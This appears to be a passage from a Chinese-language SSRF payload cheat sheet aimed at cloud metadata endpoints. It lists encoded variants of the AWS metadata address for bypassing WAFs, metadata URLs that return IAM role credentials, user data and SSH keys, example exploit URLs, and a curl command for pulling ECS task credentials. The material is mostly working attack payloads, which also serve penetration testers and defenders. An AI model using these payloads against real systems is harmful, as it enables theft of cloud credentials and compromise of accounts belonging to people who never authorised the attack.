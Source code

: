 * 编码IP以绕过WAF

  ```powershell
  http://425.510.425.510 带溢点的点分十进制
  http://2852039166 无点十进制
  http://7147006462 带溢点的无点十进制
  http://0xA9.0xFE.0xA9.0xFE 点分十六进制
  http://0xA9FEA9FE 无点十六进制
  http://0x41414141A9FEA9FE 带溢点的无点十六进制
  http://0251.0376.0251.0376 点分八进制
  http://0251.00376.000251.0000376 带填充的点分八进制
  http://0251.254.169.254 混合编码（点分八进制 + 点分十进制）
  http://[::ffff:a9fe:a9fe] 压缩的IPv6
  http://[0:0:0:0:0:ffff:a9fe:a9fe] 展开的IPv6
  http://[0:0:0:0:0:ffff:169.254.169.254] IPv6/IPv4
  http://[fd00:ec2::254] IPv6
  ```

这些URL返回与实例关联的IAM角色列表。然后，您可以将角色名称附加到此URL以检索该角色的安全凭证。

```powershell
http://169.254.169.254/latest/meta-data/iam/security-credentials
http://169.254.169.254/latest/meta-data/iam/security-credentials/[角色名称]
```

此URL用于访问启动实例时指定的用户数据。用户数据通常用于将启动脚本或其他配置信息传递到实例中。

```powershell
http://169.254.169.254/latest/user-data
```

其他用于查询有关实例的各种元数据的URL，如主机名、公共IPv4地址和其他属性。

```powershell
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/dynamic/instance-identity/document
```

**示例**:

* Jira SSRF导致AWS信息泄露 - `https://help.redacted.com/plugins/servlet/oauth/users/icon-uri?consumerUri=http://169.254.169.254/metadata/v1/maintenance`
* Flaws挑战 - `http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/`

## AWS ECS的SSRF URL

如果您对ECS实例具有文件系统访问权限的SSRF，请尝试提取`/proc/self/environ`以获取UUID。

```powershell
curl http://169.254.170.2/v2/credentials/<UUID>
```
